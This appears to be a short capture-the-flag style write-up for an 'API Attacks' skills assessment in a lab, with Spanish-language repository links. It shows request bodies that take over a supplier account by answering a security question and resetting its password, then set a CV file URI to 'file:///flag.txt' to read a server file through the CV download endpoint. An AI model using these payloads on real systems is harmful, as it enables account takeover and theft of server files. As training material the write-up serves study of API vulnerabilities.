


# Skills Assessment

## Customer
**Suppliers_GetAll**
securityQuestion": "What is your favorite color?"


```txt
redacted@example.invalid
redacted@example.invalid
redacted@example.invalid
redacted@example.invalid
redacted@example.invalid
```


##### /api/v2/authentication/suppliers/passwords/resets/security-question-answers



```json
{
  "SupplierEmail": "redacted@example.invalid",
  "SecurityQuestionAnswer": "Rust",
  "NewPassword": "danidani"
}
```


## Suplier

##### POST /api/v2/suppliers/current-user/cv

```json
{
  "successStatus": true,
  "fileURI": "file:///app/wwwroot/SupplierCVs/file-sample_150kB.pdf",
  "fileSize": 358443
}
```

##### /api/v2/suppliers/current-user

Use this endpoint to update the currently authenticated Supplier.

```json
{
  "SecurityQuestion": "test",
  "SecurityQuestionAnswer": "test",
  "ProfessionalCVPDFFileURI": "file:///flag.txt",
  "PhoneNumber": "test",
  "Password": "test"
}
```

##### GET /api/v2/suppliers/current-user/cv 



## Material relacionado

- [Broken Authentication](../../../Web-Security/API/broken-authentication.md)
- [Broken Function Level Authorization](../../../Web-Security/API/broken-function-level-authorization.md)
- [Broken Object Level Authorization](../../../Web-Security/API/broken-object-level-authorization.md)
- [Broken Object Property Level Authorization](../../../Web-Security/API/broken-object-property-level-authorization.md)
- [Improper Inventory Management](../../../Web-Security/API/improper-inventory-management.md)
- [Security Misconfiguration](../../../Web-Security/API/security-misconfiguration.md)
- [Server Side Request Forgery](../../../Web-Security/API/server-side-request-forgery.md)
- [Unrestricted Access to Sensitive Business Flows](../../../Web-Security/API/unrestricted-access-to-sensitive-business-flows.md)
- [Unrestricted Resource Consuption](../../../Web-Security/API/unrestricted-resource-consuption.md)
- [Unsafe Consumption of APIs](../../../Web-Security/API/unsafe-consumption-of-apis.md)


## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | API Attacks/11 - Skills Assessment.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

Se han sustituido valores literales de autenticación o direcciones de correo por marcadores. Los detalles sin valores están en [el registro de redacciones](../../../Resources/Audit/redactions.csv).

[Índice de categoría](../../README.md) · [Inicio](../../../README.md)
